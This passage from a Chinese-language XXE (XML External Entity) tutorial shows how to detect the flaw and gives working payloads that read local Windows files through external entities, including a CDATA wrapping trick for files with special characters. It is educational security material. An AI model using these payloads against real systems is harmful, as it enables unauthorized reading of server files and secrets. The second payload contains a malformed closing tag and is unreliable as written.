 ##### 举例:

首先找xml内容输入点,然后检测XML是否会被成功解析

![图片](https://ae01.alicdn.com/kf/U8bcf2d0ee5c143c0a9bfa6ef7730881dV.jpg)

若可以被解析,则检测服务器是否支持DTD引用外部实体

![图片](https://ae01.alicdn.com/kf/U6590a2e4d8514e299781c8faf8d8d0b4P.jpg)

如果支持引用外部实体,则存在XXE漏洞!

## 具体利用:
### 1.有回显的本地文件读取:

读取文件的payload:

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user [
<!ENTITY all SYSTEM "file:///C:/windows/system.ini">]>
<user><username>&all;</username><password>132123</password></user>
```
效果:
![图片](https://ae01.alicdn.com/kf/Uca6aa98b8c304a47adc441e1a6433a99U.jpg)

### 2.当所读取文件中包含了<或者&

当我们读取的文件中包含了一些特殊符号(如<      &)的时候,会发现爆了一堆错而且读取不到该文件的内容.

接下来记录下解决该问题的整个流程:

#### (1)尝试使用之前的payload进行读取包含特殊字符的文件:

![图片](https://ae01.alicdn.com/kf/Uff17cc1f4ae1497193cdc285b3f736f2J.jpg)

报错的原因:

```
主要是因为我们要读取的文件内容中存在很多的特殊字符：大于号、小于号等，我们在前面的XML基础巩固中也提到过，当xml的标签内还存在小于号、大于号等特殊字符时，尤其是小于号，会被XML解析器误认为是另一个标签的开始，这样就会造成解析的错误。
```
#### (2)既然是xml会把 < 等特殊字符解析导致的错误,那我们就可以使用之前讲的CDATA来绕过下:

但是CDATA并没有提供拼接的方法,所以我们无法直接将我们想要获取文件的内容直接拼接到CDATA区段里.

所以我们尝试在xml中对其进行一个拼接:
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user [
<!ENTITY start "<![CDATA[">
<!ENTITY xxe SYSTEM "file:///C:/test.txt">
<!ENTITY end "]]>">
]>

<user><username>&start;&xxe;&end;</username<password>132123</password></user>
```
##### 效果:
![图片](https://ae01.alicdn.com/kf/U8cffd88691d94d70a2cde48f4b307536t.jpg)
